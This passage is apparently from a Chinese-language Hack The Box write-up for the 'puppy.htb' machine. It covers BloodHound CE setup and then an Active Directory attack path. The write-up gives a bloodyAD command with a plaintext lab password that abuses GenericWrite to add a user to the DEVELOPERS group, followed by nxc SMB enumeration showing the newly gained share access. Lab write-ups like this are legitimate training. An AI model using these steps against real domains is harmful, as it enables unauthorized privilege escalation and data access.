 > bloodhound现在通过apt安装的都是bloodhound-ce版本，网上很多都是之前的legacy版本。
>
> 也可以安装docker版，通过bloodhound-cli管理。
>
> 如果直接通过apt安装，有一个问题是无法一键关闭。要通过pkill  -f  bloodhound   pkill -f neo4j
>
> 如果安装docker版本，有个问题是无法下载docker-compose.yml，得手动去github下载一个到/root/.config/bloodhound/
>
> 建议使用docker版本，部署方便，关闭方便。

注意这里有一个问题，bloodhound在你第一次使用默认密码登录后会要求你修改密码。

卸载重装后，它并没有提示是第一次登录，因此要使用之前修改后的密码。
![image-20251009134142475](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20251009134142475.png)

我们可以看到这样一条利用链，我们控制的用户levi.james是HR组的成员，同时HR组对DEVELOPERS组有genericwrite权限。那么我们就可以把levi.james添加到DEVELOPERS组中。

使用bloodAD工具即可：

```
└─# bloodyAD --host 10.10.11.70 -d puppy.htb -u levi.james -p KingofAkron2025! add groupMember "DEVELOPERS" "levi.james"
[+] levi.james added to DEVELOPERS
```

注意我们这样做的原因是前面使用nxc工具扫描了smb共享服务，发现除了默认共享外有一个共享文件夹DEV我们没有读取权限，于是添加到DEVELOPERS组后再看看能不能读：

```
nxc smb 10.10.11.70 -u levi.james -p KingofAkron2025! --smb-timeout 10 --shares --verbose
```

这里注意一定要加 --smb-timeout 10  默认是两秒超时，我们网络延迟较高，两秒不够用的。后面的--verbose是输出详细信息。如果还是连接不上，就减少线程数，增加每个线程的超时时间：

```
nxc smb 10.10.11.70 -u levi.james -p KingofAkron2025! --smb-timeout 10 --shares --threads 1 --timeout 10 --verbose
```

结果如下：

```
SMB         10.10.11.70     445    DC               Share           Permissions     Remark
SMB         10.10.11.70     445    DC               -----           -----------     ------
SMB         10.10.11.70     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.70     445    DC               C$                              Default share
SMB         10.10.11.70     445    DC               DEV             READ            DEV-SHARE for PUPPY-DEVS
SMB         10.10.11.70     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.70     445    DC               NETLOGON        READ            Logon server share
SMB         10.10.11.70     445    DC               SYSVOL          READ            Logon server share
```

这里NETLOGON和SYSVOL是AD域控制器的默认共享。DEV原本没有READ权限，我们添加levi.james到DEVELOPERS组之后就有了READ权限

用smbclient连接上去，看看有什么敏感文件：
